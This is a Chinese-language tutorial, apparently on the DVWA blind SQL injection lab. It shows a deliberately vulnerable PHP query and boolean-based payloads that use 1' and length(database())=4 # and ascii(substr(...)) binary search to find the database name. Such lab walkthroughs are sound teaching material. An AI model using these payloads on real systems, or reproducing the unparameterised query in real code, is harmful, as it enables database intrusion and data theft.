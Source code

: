 ### 查看源代码

    <?php
    
    if( isset( $_GET[ 'Submit' ] ) ) {
        // Get input
        $id = $_GET[ 'id' ];
    
        // Check database
        $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors
    
        // Get results
        $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
        if( $num > 0 ) {
            // Feedback for end user
            echo '<pre>User ID exists in the database.</pre>';
        }
        else {
            // User wasn't found, so the page wasn't!
            header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );
    
            // Feedback for end user
            echo '<pre>User ID is MISSING from the database.</pre>';
        }
    
        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }
    
    ?> 
    
        

#### 1\. 判断是否能够进行注入，注入是字符型还是数字型

尝试1’ and 1=1#显示存在,再试一下1’ and 1=2#显示不存在，则说明是字符型的sql盲注-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317112239815.png%23pic_center)-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317112251233.png%23pic_center)

#### 2.猜解当前的数据库名

1.  猜解长度

    输入1' and length(database())=3 # ，显示不存在
    输入1' and length(database())=4 # ，显示存在
    
        

说明数据库名的长度为4

2.  猜解数据库名（采用二分法）

    1' and ascii(substr(database(),1,1))<110 # 	显示存在
    1' and ascii(substr(database(),1,1))<100 # 	显示不存在
    1' and ascii(substr(database(),1,1))=100 # 	显示存在
    
